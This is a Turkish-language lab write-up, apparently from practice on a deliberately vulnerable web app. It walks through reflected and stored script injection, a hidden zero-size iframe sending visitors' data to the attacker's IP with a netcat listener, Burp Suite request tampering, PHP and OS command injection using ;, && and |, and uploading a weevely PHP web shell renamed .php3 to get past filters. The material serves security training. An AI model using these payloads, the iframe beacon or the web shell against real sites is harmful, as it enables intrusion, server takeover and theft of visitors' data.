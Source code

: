 SQL İNJECTİON - REFLECTED (GET)

![photo_6023604428080265317](https://user-images.githubusercontent.com/110966683/183882924-70f82c7d-2eda-466c-9db7-4680c145040d.jpeg)

bu panelde html açığı olup olmadığını anlamak için panele html kodu yazıyoruz ben örnek olarak başlık satırı içinde adımı  yazıyorum.

![photo_6025856227893950465_w](https://user-images.githubusercontent.com/110966683/183883997-b8cb1b5b-2198-4612-ac88-f445d160f5e6.jpeg)

gördüğümüz gibi başlık olarak yazdı 

alert scripti deneyelim şimdi ekrana 1 yazdırması lazım

<h1>Hello,<script>alert(1)</script>!</h1>

![photo_6023604428080265318_w](https://user-images.githubusercontent.com/110966683/183884371-f0fefa5a-4830-465d-8f45-8b239cb8ccf7.jpg)

HTML İNJECTİON - STORED (BLOG)

eğer bir stored açığı olursa burda çalıştırdığımız bir kod web sitesine giren herkesi etkiler farklı bilgisayrdan bu web sitesine girseniz bile hackerin çalıştırdığı kod çalışacaktır.
örnek olarak alert scripti çalıştırırsak giren her kullanıcı bu alerti görür
alert scripti: <h1>Hello,<script>alert(1)</script>!</h1>
peki daha teklikeli olarak ne yapılabilir;
<iframe src="http://192.168.245.148:4545/test" height="0"  width="0"></iframe>
kendi bilgisayarımızın ip sini ve kullanılmayan bir portadresi yazıyoruz 

bu komut sayesinde siteye giren kullanıcıların bilgileri bilgisayarımıza gelir
dinlemek için linux terminalimizde natcat kullanacağız 
linux natcat komutu: nc -nvlp 4545 dinlemek için 


![photo_6023604428080265325_w](https://user-images.githubusercontent.com/110966683/183884730-c7d1a93e-aefe-488d-938b-738bfcd1d907.jpg)


görüldüğü gibi belirlediğimizportu dinledi ve kullanıcının bilgilerini getirdi.

İFRAME ENJECTİON


iframe enjeksiyonunda brupsuiti açıp proxy kısmından intercepti açıyoruz bu sayede tüm paketler yollanmadan buraya geliyor burda gelen paketi değiştirip forward  ediyoruz ve bizim yaptığımız değişikle site açılıyor 


![photo_6025856227893950471_w](https://user-images.githubusercontent.com/110966683/183889548-d56fb3e7-74a5-48ff-b77d-1a23062e705c.jpg)

gelen paket bu şekilde 

![photo_6025856227893950472_w](https://user-images.githubusercontent.com/110966683/183889597-765c5d39-cf45-40dc-ac85-7108d3520731.jpg)

görülen html kodunu yazıp forward ediyoruz 


![photo_6025856227893950474_w](https://user-images.githubusercontent.com/110966683/183889800-b5779563-0cdb-4db4-ab5e-396398df50a4.jpg)

görüldüğü gibi yazdığımız kod çalıştı.

PHP İNJECTİON

php urlsinde komut çalıştırmayı deniyoruz 
normalde iki komut çalıştırmek için komutların arasına ; konur şimdi bunu deneyeceğiz
; koyup system("whoamı") çalıştırıyoruz yani sistem içinde ben kimim komutu çalıştırıyoruz 

php upload açıkları
upload açıkları 
weevely weevely aracı bizim için php payloadı oluşturuyor 
weevely generate 123456 myweevely.php
weevely generate yazıp şifre sonrada isim yazıp payload oluşturuyoruz bunu resim update etme yerinden update etmeyi deneyeceğiz ve upload olunca weevely aracımıza gelip 
weevely yazıyoruz sonra update ettiğimiz url yi ve son olarak şifreyi yazıp giriyoruz 

![photo_6025856227893950494_w](https://user-images.githubusercontent.com/110966683/183912608-ed9b34b1-5c7d-44b5-9e28-b0ecf7d5f834.jpg)


gördüğünüz gibi sistemi hackledik.

varsayalım ki php yüklemeye çalıştığınız sistem .php uzantısını engellemiş o zaman linux terminalimize gelip cp myweevely.php myweevely.php3 (3 olmak zorunda değil siz başka rakamda deneyebilirsiniz.)şeklinde deneyebilirsiniz yani php dosyamızın adını php3 olarak değiştirdik sadece ama uzantı olarak hala php alternatif olarak denenebilir. 



kod çalıştırma açıkları
dns lookup da google.com yazınca server ip adres, falan çıktığını görüyoruz demekki burda bir komutçalışıyor ve bu bilgiler bize geliyor.

![photo_6025856227893950502_w](https://user-images.githubusercontent.com/110966683/183921757-a1247bc9-64c7-4e48-9fd9-a473487bafcd.jpg)



 şimdi biz burda kendi komutlarımızı çalıştırmayıdeneyeceğiz.
 öncelikle her zamanki gibi yazdığımız şeyden sonra ; koyup komut çalıştırıyoruz 


![photo_6025856227893950501_w](https://user-images.githubusercontent.com/110966683/183921778-f63217ea-c0f4-4dee-a8d0-283ff1959517.jpg)



gördüğünüz gibi ls komutu çalıştı demekki burda kod çalıştırma açığı var.
ekstra olarak site ; ü engellemiş olabilir biz kendi terminalimizde 2 komut çalıştırmak istediğimizde && (ve) işaretini koyarsak yazılan 2 komutu da çalıştır anlamına gelir ya da | (alt ve tire tuşlarıyla yapabilirsiniz) işaretiye ilkkomutu çalıştır ilk komutun cevabını al 2. komutta kullan anlamına gelen bu işareti kullanırız o yüzden ; olmazsa tek tek diğer işaretleride deneyebilirsiniz.



